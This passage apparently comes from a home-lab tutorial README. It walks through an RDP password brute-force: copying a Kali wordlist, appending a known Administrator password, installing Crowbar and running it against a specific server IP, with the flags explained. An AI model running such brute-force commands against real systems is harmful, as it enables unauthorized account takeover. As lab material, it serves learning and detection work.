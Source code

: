 We can create a text file with 50 fake passwords and put the administrator password we just created on the last row. This way, our command will try the 50 bad passwords first and then successfully RDP brute force with the good password on the 51st try. Or, we can copy a password wordlist from Kali Linux. Let's choose one that is not too big, such as `2023-200_most_used_passwords.txt`.

![Wordlist](Screenshots/KaliWordlist.png)

```bash
cp /usr/share/wordlists/seclists/SecLists-master/Passwords/2023-200_most_used_passwords.txt ~/Desktop/Mythic/password.txt
```

![copywordlist](Screenshots/KaliWordlist2.png)

This command copies the wordlist to the new directory and renames it to `password.txt`

Edit `password.txt` to add the Administrator password at the end:

```bash
cd ~/Desktop/Mythic
nano password.txt
```

Verify the password list with:

```bash
cat password.txt
```

### 4. Performing the Brute Force Attack with Crowbar:
Install Crowbar if not already installed:

```bash
sudo apt-get install -y crowbar
```

Run the Crowbar command:

```bash
crowbar -b rdp -u Administrator -C password.txt -s 199.247.5.216/32
```

- `-b` specifies the service.
- `-u` is the user account.
- `-C` is the password list.
- `-s` is the target Windows server IP address (the `/32` targets ONLY this IP address).
